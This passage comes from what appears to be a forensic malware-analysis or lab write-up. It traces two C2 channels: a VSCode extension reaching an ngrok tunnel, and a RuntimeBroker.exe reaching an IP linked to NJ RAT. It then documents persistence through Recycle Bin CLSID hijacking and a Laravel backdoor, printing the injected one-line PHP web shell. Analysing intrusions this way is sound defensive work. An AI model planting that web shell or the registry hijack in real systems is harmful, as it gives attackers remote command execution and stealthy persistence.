 This revealed that RuntimeBroker.exe had an active connection to `18.197.239.5:18854` at the time of memory capture. This represents a **second C2 channel** beyond the ngrok tunnel found in the VSCode extension, indicating a sophisticated multi-stage attack:

- **Stage 1:** VSCode extension connects to `6.tcp.eu.ngrok.io:16587`
- **Stage 2:** Downloaded RuntimeBroker.exe connects to `18.197.239.5:18854`

After running this IP through an IP abuse database, I found that this is associated with the NJ RAT malware.

![abuseIPdb screenshot](../images/ReliableThreat-ipabusedb.png)

https://www.abuseipdb.com/check/18.197.239.5

### 5. Persistence Mechanisms

#### Mechanism 1: CLSID Hijacking

**Registry Modification Target:**

```
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command
```

**Compromised Component:** Windows Recycle Bin

- **MITRE Technique:** T1546.015 (Event Triggered Execution: Component Object Model Hijacking)
- **Impact:** Malicious code executes whenever user interacts with Recycle Bin
- **Stealth Factor:** High frequency, low suspicion trigger

#### Mechanism 2: Web Application Backdoor

**Laravel Application Compromise:**

```php
// Malicious code injected into /Users/User2/Project/laravel-11.1.4/public/index.php
$testc = $_GET['s1']; echo `$testc`;
```
